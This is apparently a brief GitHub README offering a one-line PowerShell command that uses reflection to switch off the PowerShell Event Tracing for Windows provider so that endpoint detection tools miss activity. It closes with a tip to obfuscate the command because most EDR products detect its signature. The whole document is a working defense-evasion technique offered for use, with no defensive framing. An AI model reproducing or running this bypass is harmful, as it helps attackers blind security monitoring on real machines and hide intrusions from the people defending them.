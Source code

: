 # ETW-BYPASS

This script perform ETW-Bypass to avoid EDR detection

```powershell
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
```

- This is caught by most of EDR's with it's signature so perform some obfuscation to get around it
